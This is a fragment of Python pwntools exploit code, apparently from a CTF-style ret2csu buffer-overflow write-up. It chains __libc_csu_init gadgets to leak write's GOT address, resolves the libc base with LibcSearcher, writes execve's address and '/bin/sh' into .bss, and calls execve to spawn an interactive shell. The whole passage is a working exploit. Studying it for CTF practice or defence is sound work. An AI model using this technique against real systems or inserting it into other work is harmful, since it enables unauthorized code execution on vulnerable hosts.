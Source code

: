 ```python

    payload += p64(csu_front_addr)

    payload += 'a' * 0x38

    payload += p64(last)

    sh.send(payload)

    sleep(1)





sh.recvuntil('Hello, World\n')

## RDI, RSI, RDX, RCX, R8, R9, more on the stack

## write(1,write_got,8)

csu(0, 1, write_got, 8, write_got, 1, main_addr)



write_addr = u64(sh.recv(8))

libc = LibcSearcher('write', write_addr)

libc_base = write_addr - libc.dump('write')

execve_addr = libc_base + libc.dump('execve')

log.success('execve_addr ' + hex(execve_addr))

##gdb.attach(sh)



## read(0,bss_base,16)

## read execve_addr and /bin/sh\x00

sh.recvuntil('Hello, World\n')

csu(0, 1, read_got, 16, bss_base, 0, main_addr)

sh.send(p64(execve_addr) + '/bin/sh\x00')



sh.recvuntil('Hello, World\n')

## execve(bss_base+8)

csu(0, 1, bss_base, 0, 0, bss_base + 8, main_addr)

sh.interactive()

```
